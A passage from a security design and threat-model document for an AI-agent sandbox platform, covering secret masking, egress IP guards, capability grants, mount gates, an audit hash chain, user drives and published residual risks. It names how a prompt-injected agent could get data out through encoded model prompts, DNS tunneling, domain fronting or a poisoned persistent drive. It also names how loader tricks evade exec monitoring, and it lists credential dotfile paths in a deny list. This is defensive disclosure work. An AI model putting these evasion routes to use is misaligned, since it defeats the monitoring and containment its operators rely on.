| Relay reaching a port the operator never declared | **[v0.6 shipped]** Only ports in the policy's `ui_apps` — operator-authored, at most 8, validated wherever a policy enters (stored, inline, `WARDYN_DEFAULT_POLICY`). The port is captured from the effective policy AT TICKET REDEMPTION into the signed cookie, so no later request can name a different one, and the dial target is re-verified per connection. Policy names an app, never a command string: what starts is the image's own `/usr/local/bin/wardyn-ui-<name>` launcher. `ssh -L` remains the undeclared-port escape hatch, bounded by its own owner-or-admin gate. | B1, B10 |
| Exec/resource exhaustion through relay connections | **[v0.6 shipped]** Each relay connection is one live `socat` exec, bounded per-run at 8 concurrent (`maxUIConnsPerRun`, vs the gateway's `maxSSHSessionsPerRun = 4`), pooled idle connections closed after 90s. That bounds connections, NOT the execs behind them: neither substrate offers "kill this exec", so a `socat` whose app-side half is still held lingers until the sandbox stops. Published, not hidden — `docs/UI-SANDBOXES.md` "Resource bounds", `uiIdleConnTimeout`'s own comment (`internal/api/uigateway.go`), and `scripts/run-e2e-ui-sandbox.sh`, which asserts what this promises (20 relayed requests must not become 20 execs). A run reload per connection means a stopped run stops serving (409). | B10, B1 |

### 4.1 Output masking, and the paths it does not cover

SecretRegistry masking (`<secret-hidden>`, `internal/secretmask`) covers the
default brokered recording-upload path, audit events and proxy decision logs
**[shipped]**. It is **verbatim-match only**. On the upload path the body is
asciicast JSON, so each secret's JSON-escaped rendering is masked alongside its
raw bytes (`JSONEscapedVariants`), covering multi-line keys and
quote/backslash-bearing values; a secret SPLIT across two output events by the
recorder's PTY read boundaries stays a residual the verbatim match cannot close,
since the `"],[t,"o","` framing interrupts the byte run. The live-attach path
masks raw PTY bytes and is unaffected.

**Two named unmasked paths.**

- The optional `WARDYN_RECORDING_MOUNT`/`-out-dir` single-host recording
  fallback bypasses the control plane and delivers UNMASKED casts (masking is
  structurally control-plane-side — `wardyn-rec` holds no secret values). Do not
  use it where recordings are viewer-exposed.
- **The registry is process-local and fails OPEN.** `secretmask.Registry` is an
  in-memory map, never persisted, populated on whichever wardynd process served
  the run's injection/mint request; the cast upload and the live-attach relay are
  separate requests, and both fall back to unmasked pass-through when the run's
  snapshot is empty (`buildMaskingBody`, `liveMaskWriter`). One process, one
  replica — the shipped topology — makes the CROSS-REPLICA form inert, which is
  why `replicas: 1` is a SAFETY control: the Helm chart refuses more
  (`deploy/helm/wardyn/templates/deployment.yaml`) and compose's `container_name`
  rejects `--scale`. Run a second replica anyway and a cast landing on the wrong
  pod is persisted verbatim, live credentials in cleartext, with a `success`
  audit event. **The single-process case is not inert**: a `wardynd` restart
  (upgrade, crash) mid-run empties the same map, so a run whose secrets
  registered pre-restart and whose cast uploads post-restart hits the identical
  empty-snapshot fail-open at `replicas: 1`.

### 4.2 The unconditional IP guard, and its two admin-authored exceptions

A literal-IP target is denied before policy or approval run (`evaluate` step 0,
`internal/egress/proxy/proxy.go`), and every direct-dialed hostname is re-vetted
post-DNS-resolution (`VetHost`/`isBlockedIP`, `internal/egress/proxy/policy.go`)
against loopback/link-local/multicast/unspecified, RFC1918/ULA/reserved and
NAT64-embedded-v4 ranges. That re-check runs AFTER, and is unaffected by, the
policy verdict — a host `allow_all_egress` would pass is still denied when it
resolves into one of those ranges. The guard lives in the proxy's code, not the
network topology, so unlike L0 it does not depend on gatewaylessness.

**The first admin-authored exception** is `SiteConfig.InternalHosts`
(`vetHostLift`/`Proxy.vetHost`): it lifts the RFC1918/ULA/CGNAT slice ONLY —
never loopback/link-local/metadata/multicast/NAT64 — for a declared hostname,
scoped to declared CIDRs, and never for an address on the proxy's own interface
subnets or its resolved control-plane host (`Proxy.onOwnSubnetOrControlPlane`).
On Docker that excludes the `wardyn-internal` neighbours (Postgres/Dex/registry);
on Kubernetes those are ClusterIP Services off the pod's own interface, so there
the declared `cidrs` are the bound (`docs/OPERATIONS.md` § Internal hosts). The
metadata address stays unreachable regardless of what an operator declares.

**The second** is the literal-IP trust an `EgressRedirect` whose `to` is a bare
address rides on (`Proxy.trustsExactLiteralIP`, consulted by `evaluate` step 0
and `Proxy.egressTarget`): the address `substituteArtifactEgress` writes into the
covered runs' `allowed_domains` is dialed without the post-resolution re-check,
because a literal has no hostname behind it to rebind. It is bounded the same way
and by the same predicates as the first — `blockPrivate` only, so no
loopback/link-local/metadata/NAT64 literal is ever trusted however it is
allow-listed, and never an address on the proxy's own subnets or its
control-plane host — and it is narrower in one respect: it admits only the EXACT
address an operator typed, never a range. `denied_domains` still wins over both
(`RunPolicy.AllowsLiteralIP` checks the deny lists first).

The internal model gateway (residual #29) is NOT a second exception: its relaxed
per-request vet (`Proxy.vetTrustedHost`, reached only via `Proxy.gatewayTarget`)
is scoped to the brokered `/wardyn/llm/*` route, never an ordinary sandbox
CONNECT/MITM naming the gateway host, which `Proxy.vetHost` covers unchanged.
The one hop that defers the post-resolution re-check — the opt-in upstream
corp-proxy lane — is §5.1a's disclosed TOCTOU residual; step 0 still holds there.

### 4.3 Capability grants (v0.6) — the mechanism

Six closed kinds — the set is `capabilityKinds` (`internal/api/capabilities.go`),
and it grew by two in v0.7. Five NARROW what a member could already do:
`egress_host` (the hosts on their inline policy, and which host they may decide an
`egress_domain` approval for), `secret` (which secret names an inline policy may
reference, and which names `GET /secrets` lists back), `workspace` (which
onboarded workspace they may launch against), `agent` (which harness — `req.Agent`,
their own free-text choice) and `integration` (which AI-provider integration they
may name on a run — `req.IntegrationID`, and TIER 1 ONLY: a workspace's own
`LLMCred` pin and the operator's site default are operator-authored and are
deliberately not gated). The last three are enforced at `denyMemberRequest`.
`image` WIDENS — without both its switch on and an exact-ref grant a member cannot
name a custom image at all. `devcontainer_repo` is deliberately not a kind and
stays unconditionally admin-only: it executes attacker-authored build
configuration, not a power to hand out one row at a time.

One resolver answers both directions (`capAllowed`/`capGranted`,
`internal/api/capabilities.go`) on a fixed precedence: admins, the admin token
and local mode are EXEMPT (a capability bounds the tier below the one writing the
grants); then any matching **deny**; then any matching **allow**; then the
per-kind enforcement switch; and a store error answers `500` rather than reading
as permission. Deny sits ABOVE the switch so one host can be blacklisted for one
contractor without taking the deployment fail-closed, and there is no
user-over-group precedence (a user allow overriding a group deny is a breach
report, not a feature). `egress_host` values match via `entryCoversAny` — the
SAME matcher the egress substitution drop uses, never a second one that could
disagree about a port suffix — and deny rows match on overlap in either
direction, so a narrower request cannot slip under a broader deny nor a broader
one over a narrower deny; every other kind is an exact compare, and grant values
are shape-validated at the write boundary.

Enforcement seams: `narrowMemberInlinePolicy` (a member's own `inline_policy`
allowlist and secret refs), `denyMemberRequest` (`workspace_id`, `image`,
`devcontainer_repo`, `agent`, `integration_id`), `authorizeMemberDecision` (which
host a member may decide an `egress_domain` approval for) and `handleListSecrets`
(which names `GET /secrets` lists back).

**The doctrine is the security-relevant half: a capability never narrows what the
ADMIN pre-authorized** — a stored policy, a workspace's own requirements,
scan-seeded hosts and the model provider's own egress stay untouched, because
narrowing them would brick workspace runs at scale. Grant CRUD and the switch map
are **`securityOps`** since v0.7 — admin OR `security_admin`, `mountPermissionRoutes`
— and audited (`capability.grant.created`/`.updated`/`.deleted`,
`capability.enforcement.write`). Note the asymmetry that makes handing them to the
second tier safe: the rows bound the MEMBER tier, and the resolver exempts
`isOperator` only, so a security admin writing themselves a grant reaches nothing
the exemption would have given them anyway. Every member refusal that is not a
plain foreign-resource 404 audits as `authz.denied` with a `reason` from a closed
vocabulary; that vocabulary is owned and guarded in one place —
`docs/AUDIT-ACTIONS.md`'s `authz.denied` row, which points at
`docs/OPERATIONS.md`'s "Every denial that isn't a 404" for the full list. It is
not restated here: the short copy that used to sit in this paragraph named five of
the values and went stale the release two more shipped. **EVERY switch ships OFF** — an
absent `capability_enforcement` row is not enforced — so a 0.5 deployment upgraded
with no rows behaves byte-for-byte as it did. Fail-open BY DESIGN, chosen for
adoption over posture; residual #20 states the cost.

### 4.4 Member-authored host mounts (v0.6) — the gate

`composer.Clamp` still drops every composer-proposed and inline-policy mount
unconditionally, so a member-owned workspace is the only path on which a
non-operator supplies a host bind source. The gate is additive: the operator
deny-list (`ValidateMountSource`) runs first and unchanged; then the source's
**canonicalized real path** (`filepath.EvalSymlinks`, fail-CLOSED on any resolve
error — no lexical fallback) must sit inside an operator/MDM-set root
(`WARDYN_MEMBER_WORKSPACE_ROOTS`, or that principal's `_MAP` entry, which
REPLACES the shared list); and it must neither BE nor TRAVERSE a credential
dotfile path (`.ssh`, `.aws`, `.claude`, `.wardyn`, `.gnupg`, `.docker`, `.kube`,
`.config/gh`, `.netrc`, `.git-credentials`, `.git/config`).

Unset roots = **no member host mounts at all**. Writability is a SECOND, narrower
allowlist (`WARDYN_MEMBER_WRITABLE_ROOTS` minus `WARDYN_MEMBER_WRITABLE_DENY`,
deny first and winning); both unset = every member mount read-only. Because the
within-root test runs on the RESOLVED path, a symlink inside a root aimed out of
every root is refused — the escape a lexical prefix check misses — and because the
deny-list matches the resolved path too, a root set carelessly at `$HOME` still
cannot hand a member their own `~/.ssh`.

The check runs at onboarding, again at run-create, and a THIRD time in the docker
driver immediately before `ContainerCreate` (`agentMounts`, on
`Mount.MemberAuthored` only), which makes a source repointed between onboarding
and launch fail closed. Gating on `MemberAuthored` rather than "this is a member
run" is load-bearing: the operator's staged `~/.claude` and Bedrock `~/.aws` binds
ride the same spec and live outside every member root by construction. An operator
run carries no roots and takes exactly the pre-0.6 path.

### 4.5 The audit hash chain — what it is and is not

Append-only triggers bind nobody who can `ALTER TABLE ... DISABLE TRIGGER`: a
table OWNER or superuser can rewrite an `audit_events` row, which
`0007_audit_least_privilege.sql` already publishes as a residual. Migration
`0047_audit_hash_chain.sql` does not close that — it makes ONE use of it
detectable. Every post-migration row carries
`row_hash = SHA-256(prev_hash || canonical(id, time, run_id, actor_type, actor,
action, target, outcome, source_ip, data))`, computed **inside Postgres** in a
`BEFORE INSERT` trigger, so the writer cannot choose it and both in-tree insert
paths (the store and the broker's in-tx `credential.mint`) inherit the chain.
Editing one row breaks its own hash; deleting one breaks its neighbours' link; the
operator-invoked sweep (`GET /api/v1/audit/chain/verify`, admin or
`security_admin` — the `securityOps` tier, `requireSecurityOperator` /
`isSecurityOperator` — never run at boot) names the first broken `seq` and
why.

**WHAT IT IS NOT: tamper-EVIDENCE, not tamper-proofness.** An actor who can
rewrite one row can usually rewrite every row after it and re-chain the tail, and
a re-chained tail verifies perfectly clean; truncating the newest rows leaves a
shorter, valid chain and is likewise invisible to the chain alone. The control
against both is OFF-BOX and a separate promise: the audit-sink stream carries each
row's `prev_hash`/`row_hash` **for every event whose Postgres write succeeded**,
so a SIEM holds head hashes, and a chain no longer containing a recorded head has
been rewritten or truncated. That qualifier is a residual of its own: the hashes
are filled by the write itself, so an event written while Postgres is unavailable
fans out to the sinks with no hashes on it, and the spool drain replays it into
Postgres through the raw store recorder rather than back onto a sink — the
off-box head series therefore has a gap across an outage (`docs/OPERATIONS.md`,
"What the drain does not restore"). Pre-migration rows
keep NULL hashes and sit outside the chain (no backfill — hashes computed after
the fact by the process that could have altered the rows prove nothing). Signed
receipts under a key no database role can reach are the next rung and are **NOT
built**.

**A break is evidence to investigate, not proof on its own — and a false one is
reachable with no tampering at all.** The insert trigger allocates `seq` and the
chain link under one advisory lock, but its head lookup runs in the CALLER's
transaction snapshot. A writer that is not Wardyn, holding a `REPEATABLE READ` or
`SERIALIZABLE` transaction opened before the previous append committed, chains
onto the head its snapshot still shows: two rows share a `prev_hash` and the
sweep reports *"a row was deleted or reordered"*. Postgres raises nothing — there
is no row conflict to fail on — and the verdict does not clear, because the walk
stops at the first break. Every in-tree writer is `READ COMMITTED`, so this is
reachable only by a direct database writer; the deployment rule that keeps the
signal meaningful is that nothing but Wardyn writes to `audit_events`, and
anything that must, writes at `READ COMMITTED` (`docs/OPERATIONS.md`, "The hash
chain").

### 4.6 User drives (v0.7) — admin-provisioned, member-attached persistent storage

A **user drive** is the one thing a run mounts that deliberately OUTLIVES the
run. An admin registers a drive (`user_drives`, migration `0054_user_drives.sql`)
and allocates it to a user, a group, or everyone (`user_drive_grants`); a member
attaches theirs per run. Two kinds: a **share** the platform already mounts (a
host path on Docker, an admin-provisioned claim on Kubernetes) and a **managed**
object Wardyn creates per person (a Docker named volume, a dynamic PVC).

**The request carries a flag, never a path.** `CreateRunRequest.Drive` is
`DriveSelection{Enabled, ReadOnly}` (`pkg/client`) and nothing else — no drive
name, no directory, no size, no source. The server resolves subject → grant →
drive → per-person home name from the AUTHENTICATED identity
(`resolveUserDrive`/`resolveUserDriveFor`, `internal/api/user_drives_resolve.go`)
on the same dual key governance profiles use — the lowercased OIDC `sub` and the
email, never a UPN — and the whole precedence rule is one SQL `ORDER BY` ending
in `LIMIT 1` (`PG.ResolveUserDrive`, `internal/store/user_drives.go`) over a
grant table with `UNIQUE (subject_type, subject)`. **One principal resolves to
exactly one object**: allocating to a subject that already has one REPLACES that
row rather than adding a second, and where several tiers match a caller
(`user` > `group` > `all`) the precedence picks one — so no path exists IN THE
RESOLVER on which a run mounts two drives or one person's twice; a share's
directory layout is not the resolver's (`email_local` folds two addresses onto
one home — see "User drives on Docker" step 2 — and #33/#35 say what a host-side
link can do). A truncated group snapshot does not fall through to a wider
`all`-tier row — with group-tier allocations present the run is refused
(`HasGroupTierDriveGrants`, `driveWithUnusableGroups`), the same fail-closed shape
ceiling resolution already takes.

**Read-only is the floor and the run flag may only narrow.** A drive is
`writable: false` unless an admin says otherwise, per-drive and again per
allocation; `DriveSelection.ReadOnly` can force read-only on a writable
allocation, and `read_only: false` against a read-only one is a `422`, never a
widening (`driveMountFor`, `internal/api/user_drives_run.go`). A governance
profile can shut the door outright: `GovernanceLimits.DenyUserDrive`
(`internal/types/governance.go`) refuses the mount for every member under that
profile as an audited `403` (`denyMemberDrive` — `authz.denied`, reason
`governance_profile`, target `runs.drive`, no new `reason` enum value).

**Read-only is TOP-LEVEL on a runtime that does not declare `rro`.** A bind's
`ro` reaches SUBMOUNTS only where the runtime declares the OCI recursive
read-only mount option, and the daemon refuses the create outright for one that
does not — gVisor, the runtime the Wall tier (CC2) requires, lists `ro` and
`rbind` and no `rro`. So the recursive form is asked for only where it is
declared (`runtimeSupportsRecursiveReadOnly`,
`internal/runner/docker/hardening.go`), the bind still goes in read-only either
way, and the loss is WARNed on the run it affects rather than assumed away
(`driveBindOptions`). The residual is a host submount UNDER the person's home —
an autofs home, a second export mounted below the first — writable inside a
sandbox holding a read-only drive. Asking unconditionally is not the
alternative: it failed every CC2 run with a read-only drive at
`ContainerCreate`. The operator lever is to run those drives at CC1, where the
default `runc` declares it.

**The mount target is reserved.** `runner.DriveTarget` (`/home/agent/drive`) is
refused to every authored mount target, workspace source and clone destination
(`ValidateAuthoredTarget`, `internal/runner/mount.go`), so no policy can land on
— or shadow — somebody's storage.

**The resolver decides; the driver validates its own inputs.** That split is the
boundary. The API half derives the object
(never the caller), and the runner half re-checks the object it was handed as
the last thing before the sandbox is
created, because a share directory can be repointed between the write and the
run. On Docker (`Driver.driveMount`) a drive runs the ordinary bind deny matrix
(`ValidateTarget` on every backend; for `host_path`, `ValidateMountSource` inside
`UserDriveMountSourceCheck` — `ValidateMount` itself is deliberately not run a
second time) and, for a `host_path` drive, the deployment's ceiling on the
symlink-RESOLVED real path
(`UserDriveMountSourceCheck`) — plus three refusals a drive alone needs: a source
that resolves to the configured ROOT rather than a subdirectory (that would bind
everyone's home into one sandbox); a source that resolves OUTSIDE THIS DRIVE'S
OWN `host_root`, carried on the mount and asserted by
`UserDriveHomeWithinItsRoot` (the deployment ceiling is the operator's outer
bound over every drive at once, so on a deployment with two share drives it
cannot tell one drive's tree from the other's — a home replaced by a link to the
same-named home under the OTHER drive's root satisfies it, and an absent
`host_root` on a share mount is a refusal rather than a skip); and a source whose
resolved directory NAME is not the home the resolver derived — which closes the
DIFFERENTLY-NAMED sibling-symlink case (alice's directory replaced host-side by
a link to bob's) and only that: the assertion is on the BASE NAME, because a
share may legitimately file its homes in subdirectories of the root
(`<root>/alice` → `<root>/2024/alice`), so a link onto a SAME-NAMED directory
nested inside another principal's home (`<root>/alice` → `<root>/bob/alice`)
passes every one of these checks — see residual #33.
The target is pinned to `runner.DriveTarget` on BOTH substrates
(`errDriveTargetInvalid` in each driver), so a drive can never be mounted over
the credential staging directory or the workspace.

**`host_path` drives sit under a fail-closed env ceiling, not a database one.** A
drive's `host_root` is authored in the DB by an admin and its subdirectories are
bound into OTHER PEOPLE'S sandboxes, so the allowlist over it is
operator/MDM-set: `WARDYN_USER_DRIVE_HOST_ROOTS`
(`ParseUserDriveHostRoots`/`UserDriveHostRootCheck`,
`internal/runner/user_drive_mount.go`). Unset = **no `host_path` drive may be
registered at all**, the posture `WARDYN_MEMBER_WORKSPACE_ROOTS` takes one level
down. The root must exist on this host (fail-closed on any resolve error, no
lexical fallback), must pass the same host bind-mount deny-list every authored
source does, and must neither BE nor TRAVERSE a credential dotfile path — the
`deniedMemberSegment` list of §4.4, applied to a drive's resolved root.

**And the per-person isolation this ceiling buys is only as good as the OTHER
ceiling's disjointness.** `WARDYN_MEMBER_WORKSPACE_ROOTS` bounds a different
surface under a different rule: a member names a directory inside it and binds it
WHOLE, writable where `WARDYN_MEMBER_WRITABLE_ROOTS` allows, through a path that
consults no drive allocation at all. Point the two ceilings at one tree and the
second undoes the first — a member onboards the share as a workspace and mounts
every person's home, with no drive grant anywhere in it. Each parser vets its own
list and neither can see the other, so the comparison is made where both exist at
once, lexically, on the values as configured, and every member ceiling counts —
the shared list and each per-principal override, which replaces rather than
extends it (`MountCeilingOverlapWarnings`,
`internal/runner/user_drive_mount.go`). **It is a boot WARNING, not a refusal**,
the allow-and-warn posture the surrounding ceiling parsing already takes: an
operator may have opened a tree to both deliberately, and refusing at boot would
take a running deployment down on upgrade over a posture it already has. So the
residual is an operator who does not read the line — what was missing before was
their ever being told.

**No credential ever rides a volume option.** Wardyn never performs the share
mount and never holds a share credential: the operator mounts the export
host-side (fstab/systemd, `credentials=` in a root-owned file), and Wardyn binds
one subdirectory of the result. A managed Docker volume is created with labels
and **no driver options** (`ensureDriveVolume`), and a volume that already
answers to the name is adopted only when it has that exact shape — the `local`
driver with zero options — and carries no label contradicting this drive or this
principal (`driveVolumeAdoptable`). So an operator's `--opt type=cifs --opt
o=…,password=…` volume can never become somebody's drive, and no share password
is ever readable from `docker volume inspect`, because Wardyn never put one
there. A volume carrying NO such label is still adopted, deliberately: restoring
one from backup by hand is a documented operator gesture, and refusing a
label-less volume would turn a restore into an outage.

**On Kubernetes there is no host path at all, and two verbs.** Every backend is a
PersistentVolumeClaim; `hostPath` is offered by none, and is forbidden by Pod
Security Standards at Baseline and Restricted anyway. `userDrives.enabled` adds
exactly `persistentvolumeclaims: ["get","create"]` to the namespaced runner Role
(`deploy/helm/wardyn/templates/rbac.yaml`) — `get` because a claim is always
resolved BY NAME (nothing lists or watches), `create` for a managed drive's first
use, and deliberately **no `delete`/`deletecollection`**: a drive outlives every
run that mounts it, so reclaiming one is an operator command, never something
wardynd can do on its own (`ensureDrivePVC`, `internal/runner/k8s/drives.go`).
The claim carries the drive row's id and the person's home as labels and,
deliberately, no `wardyn.run-id`, so the per-run teardown sweep cannot reach it;
a claim whose identity labels are not this run's, or one already Terminating, is
a refused run rather than a mount (`driveClaimIdentity`); a label-less claim is
foreign — the opposite of Docker's restore gesture.

**What is on the log.** `drive.write`, `drive.delete`, `drive.grant.write` and
`drive.grant.delete` cover every authoring act; `run.drive.mount` records the
attachment itself at dispatch (actor `system`, after `CreateSandbox` returns, so
a success row means the object really was bound) with the backend, the object,
the mode and the `enforcement` value — vocabulary in `docs/AUDIT-ACTIONS.md`.
The row's `Target` is masked to `<drive>/<home>` for a `host_path`
drive, because a run's creator can read their own run's rows and a share's
object name is an absolute path on the operator's filesystem — and the absolute
path is on the row NOWHERE, `object` included: `auditDriveMount` composes that
payload field with the same masking helper (`driveAuditTarget`,
`internal/api/runs_dispatch_mounts.go`), because `GET /audit?run_id=` hands that
same reader the whole event, `data` and all, so masking only the rendered field
would have moved one disclosure one key over. A mount carrying no drive NAME
falls back to the home alone rather than to the object: the fallback for "I
cannot name the drive" must not be "then disclose the path". The operator reads
the root from `GET /drives`, which is operator-only and already carries it.
Nothing logs the drive's contents, and the preview endpoint is not audited, for
the reason its governance twin is not: it saves nothing and answers only about
claims the caller pasted.

**WHAT THIS DOES NOT CLOSE**, beyond residuals #33–#37 below. A mounted drive is
**exfiltration loot and a persistence vector**, and nothing above changes that:
whatever egress the run's policy allows can carry the drive's bytes out (the
model-API channel of residual #1 included), and a prompt-injected run that
writes a WRITABLE drive poisons the NEXT run, which is what makes a drive
different from every other mount: it is state the product hands back on purpose. What bounds it is the read-only default, the
`DenyUserDrive` door and the run's unchanged egress policy; what does NOT exist
is any coupling between the two, so "a writable drive mounted" is not yet an
input to egress policy (no forced `first_use_approval`, deliberately deferred
past v1), and there is no member self-service reset — a poisoned managed drive
is reclaimed by an operator command. Separately, **one person's concurrent runs
share one drive**: two agents writing the same directory can corrupt each
other's lock files, v1 mounts it anyway, and no warning fires — the existing
collision warning keys on the run's workspace path, which a drive deliberately
does not set, so a drive-aware warning waits on run-row persistence. And the
admin preview and the member preflight are no longer the same claim. The
**preview** (admin-only, creates no run) is honest about the ALLOCATION
only — though less narrowly than that used to mean. Since 0.7 it runs the
governance door (`drivePreviewDoorIsOpen`), the unusable/stale group-snapshot arm
(`driveWithUnusableGroups`, reached through `previewResolveUserDrive` in
`internal/api/user_drives_resolve.go`) and the would-it-bind-here check
(`driveIsMountableHere` in `internal/api/user_drives_run.go`), in the enforcement
path's own order and with the enforcement path's own refusals — and for a
`host_path` share that last check does touch the substrate: `driveShareBindFailure`
re-runs the deployment's host-root ceiling and `os.Stat`s the person's own home.
What the PREVIEW does not run is `driveMountFor`'s narrowing arm, which folds a
run request's `read_only` and has no counterpart in a preview that holds no run
request. **The member preflight is not narrower at all**: `POST /runs/preflight`
and `POST /runs` share one chokepoint (`resolveRunPolicy`) and one drive seed
(`seedRequestDrive`, called from both `handlePreflightRun` and
`handleCreateRun`), which ends in the SAME `driveMountFor` call a
launch makes — a green preflight is the launch's own answer, not a lookalike of
it. On a MANAGED backend the bind check short-circuits either way, so nothing
here asks the CLUSTER whether a claim can bind: the stock chart's missing PVC
rule, or a storage class with no provisioner, is still discovered at dispatch,
after the row is written.

---

## 5. Out of Scope — Published Residual Risks

These risks are **not closed by v1 Wardyn**. We publish them verbatim because
hiding them would repeat the failure mode we are designed to avoid.

1. **The model-API channel is an unavoidable data-exit path.** The LLM gateway
   logs every prompt/token/tool call but cannot stop an agent encoding data into a
   prompt to a model it may call. **Marketing must not claim exfil-proof.** The
   optional, off-by-default guardrail (`internal/contentscan`, policy
   `llm_inspection`) narrows this for the HONEST agent — it scans outbound prompts
   on the inspectable API-key route for operator-declared known secret values and
   can alert/block — but a prompt-injected agent can
   base64/hex/split-across-turns/encrypt around any scanner, and
   subscription-OAuth/Bedrock CONNECT modes stay opaque until the Phase-2 TLS-MITM
   tier (flagged `llm.scan.blind`). §5.1a is the claims contract.

2. **Domain fronting and exfil via dual-use allowlisted domains** are not closed
   below the optional L2 TLS-intercept+DLP tier: hostname-only filtering
   (CONNECT/SNI) is domain-frontable. That tier is **shipped**, off by default,
   opt-in per policy (`intercept_tls`, contract in §5.1a) — but bounded to
   operator-listed MITM-eligible hosts (`isMITMHost`,
   `internal/egress/proxy/mitm.go`), proven on the full container path only by a
   Docker-gated test outside default CI (`TestLive_SubscriptionInject`), with
   per-workspace ephemeral-CA injection into arbitrary agent images and
   QUIC/UDP/raw-TCP coverage unconfirmed/unbuilt.

3. **DNS-tunneling through the mandatory permitted resolver** is a residual
   channel below the TLS-intercept tier.

4. **Kernel 0-day on CC1 hardened-runc hosts (shared kernel).**
   runc-as-sole-boundary is explicitly insufficient for LLM-generated code; this
   tier alone is published as the weakest. A kernel 0-day defeats the sandbox
   boundary; the gVisor sentry 0-day / compatibility-gap class applies similarly to
   CC2, which is why §7 states what each tier does NOT stop rather than resting on
   an advisory count. No specific advisory is cited here on purpose: the one this
   sentence used to name was not a container-sandbox vulnerability at all, and a
   wrong CVE id is worse than none — it reads as rigour while sending a reviewer
   somewhere unrelated. Cite one here only when it is a gVisor/`runsc` advisory a
   reader can trace to this tier.

   **go-landlock evaluated, rejected (2026-07-06).** `landlock_restrict_self()`
   confines the calling process and its descendants, and wardynd parents neither:
   it drives the Docker API (`internal/runner/docker/driver.go`) while
   dockerd/containerd/runc fork the container in a separate tree, and the agent
   command arrives via `docker exec` (`internal/runner/docker/session.go`'s "docker
   exec hijack"), a sibling of PID 1. The only mechanism that works is a wrapper
   baked into the *agent image*, which Wardyn does not own (`spec.Image` is
   operator-supplied); support is host-conditional exactly as AppArmor/SELinux are
   (`hostSupportsAppArmor`/`hostSupportsSELinux`,
   `internal/runner/docker/hardening.go`). Revisit if Wardyn ships its own base.

5. **`ld-linux`/`mmap` dynamic-linker bypass of in-guest LSM/eBPF `execve` hooks
   (the documented egress-veto overclaim lesson).** Kernel exec-blocking is one
   detection layer with a documented bypass class, never a prevention guarantee.
   The eBPF/Tetragon stream FLAGS loader exec (`kernel.process.exec`,
   `data.loader=true` for `ld-linux*`/`ld-musl*`) so the bypass is *visible* — it
   does not block it, and agents can observe enforcement effects. The real boundary
   is structural (no network path, no resident credentials outside the §5.1a
   exceptions), enforced out-of-band.

6. **Host eBPF blindness to in-guest syscalls under CC3 Kata microVMs.** Requires
   an in-guest sensor or orchestration-layer audit fallback. Published gap;
   Tetragon inside the guest is the mitigation path.

7. **The 1-hour minted-token usage window before kill-switch revocation fires.**
   Minimized via short TTL, not eliminated. A token used within its window before
   revocation reaches the upstream service.

8. **Per-run SPIRE registration-entry churn at scale.** Entry churn, mint latency
   on the task-start hot path, and revocation-cascade timing (sandbox + SPIRE entry
   + minted tokens) are unprototyped anywhere. An explicit engineering risk, not a
   solved property.

9. **Compromised platform operator / admin (insider-admin).** Out of scope for v1
   — no separation-of-duty on the control plane yet. A platform admin can defeat
   audit integrity and policy. Signed action receipts are required to raise this
   bar (planned for v1.0); the hash chain ships (migration `0047`) and makes one
   such rewrite detectable.

10. **Silent degradation to danger-full-access in nested-sandbox/DinD** (the Codex
    documented fallback): Wardyn fails closed instead, but full DinD isolation
    depends on the opt-in Sysbox tier, which shares the host kernel.

11. **Approval-to-credential-issuance coupling correctness (B5).** No prior art.
    Its security rests on chain integrity against delegation-chain-splicing and on
    a risk classifier whose accuracy is unmeasured. Queue UX, blocking-latency
    tolerance and classifier accuracy are unvalidated at v1.

12. **eBPF ground-truth stream live-validated on ONE host; the sensor has measured
    ceilings.** The control-plane plumbing — ingest endpoint, audience-separated
    write-only token, append-only recording, `/healthz` honest-degradation gate —
    is shipped and unit-tested, and the Tetragon→`kernel.*` mapper has run against
    a live Tetragon (v1.1.2, the compose `groundtruth` profile); the measured
    ceilings are recorded where operators read them (`deploy/compose/README.md`). A
    host without a working sensor reports `ebpf_groundtruth=unavailable` and the
    stream never falsely reads `healthy`. Broader-fleet validation is the follow-up.

13. **A BYOI base is trusted-by-the-operator, and the wrap that adds Wardyn's
    tools runs on the HOST — and so does the RECOMMENDED devcontainer build.**
    `internal/envbuild` gates two lanes behind one `WARDYN_ENVBUILD` flag:
    `FinalizeBase` (the BYOI wrap — a `FROM` + `COPY` that executes nothing the base
    controls) and the ENVBUILDER stage (the "Recommended — built for this workspace"
    build, which clones the source and genuinely RUNS its
    `Dockerfile`/features/`onCreateCommand`). Both run on the host Docker daemon,
    outside the untrusted-build sandbox and outside every confinement tier.
    **Default posture differs by deployment:** a bare-binary or host-mode `wardynd`
    defaults `WARDYN_ENVBUILD` off; the compose stack (`make setup`) defaults it ON,
    so on the flagship install the RECOMMENDED path runs build-time code by default.
    Wrapping is **not vetting**:

    - **Devcontainer build-time execution is real, and neither tier-confined nor
      proxied.** The build container is capped (CapDrop ALL, resource limits) but is
      neither a Confinement Class nor behind `wardyn-proxy`; on compose it reaches
      only `WARDYN_ENVBUILD_BUILD_NETWORK` (default: the `wardyn-internal` bridge,
      never `host` — `host` would additionally reach the loopback-published
      control-plane Postgres and admin API). Accepted and structural: the same trust
      an operator places in any build step run on their behalf. See §1's
      "Repo-supplied devcontainer/build content", boundary B8, and
      `docs/OPERATIONS.md` "A named Anthropic integration bakes the claude-code CLI".
    - **Wrap-only is enforced, not assumed** (the ONBUILD preflight + self-pull,
      §4) — that closes the ONBUILD class only. The wrap runs with the daemon's
      normal privileges; a Docker/BuildKit vulnerability reachable from parsing a
      crafted base's metadata or layers is not defended against here.
    - **Digest pinning is honored, NOT enforced.** A base ref may be a mutable tag or
      a digest-pinned ref (`repo@sha256:…`); a pinned, pre-pulled base is matched
      without a registry round-trip (works air-gapped) and pinning is the
      recommended operator practice — but Wardyn **does not require it**. A mutable
      tag is resolved at wrap time — a registry
      re-pointing a tag changes what gets wrapped, and the run's recorded image tag
      is not by itself proof of content.
    - **Base CONTENT is not scanned or attested** — no malware/CVE scan, no
      signature or provenance verification (no cosign/notation/SLSA). A backdoored
      base is wrapped and launched. What bounds it is structural: a BYOI base's code
      executes only *later*, inside the run's confinement tier under the same egress
      policy, credential-brokering and audit — contained exactly as well as a hostile
      agent, no better. (Devcontainer build-TIME content is NOT covered by that
      argument.) The launch gate is a functional self-test (`agent-run --selftest`):
      proves the image *runnable*, never *trustworthy*.

14. **The control plane authenticates; it barely authorizes.** Distinct from #9
    (someone who already IS an admin): on any OIDC deployment every authenticated
    developer would hold admin powers, because an unconfigured deployment derives
    every session to the admin role.

    Not reachable by accident: OIDC with an empty `WARDYN_OIDC_OPERATOR_EMAILS`
    REFUSES TO BOOT unless `WARDYN_ALLOW_OIDC_NO_OPERATOR_LIST` is set. What the
